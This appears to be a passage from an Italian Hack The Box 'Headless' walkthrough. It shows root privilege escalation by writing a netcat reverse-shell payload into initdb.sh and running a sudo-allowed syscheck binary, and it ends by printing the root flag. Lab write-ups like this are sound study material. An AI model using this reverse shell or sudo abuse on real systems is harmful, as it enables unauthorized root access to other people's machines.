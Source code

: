 Vediamo che il file initdb.sh viene avviato, quindi ciò che possiamo fare è provare ad inserire un payload in quel file.

prepariamo il nostro pyaload
```bash
dvir@headless:~$ cat initdb.sh
nc -e /bin/sh 10.10.14.20 1212
```

ci prepariamo mettendoci in ascolto con un nuovo nc
```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# nc -nlvp 1212
listening on [any] 1212 ...
```

ed eseguiamo `sudo /usr/bin/syscheck`
```bash
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.01, 0.00
Database service is not running. Starting it...
```

otteniamo cosi la nostra shell.

```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# nc -nlvp 1212
listening on [any] 1212 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.8] 54188
id
uid=0(root) gid=0(root) groups=0(root)
```

Facciamo sempre un upgrade dell shell e ci prendiamo la nostra root flag

```bash
root@headless:~# cat root.txt
94af7231100ef5d7240e9a491ecaed7f
```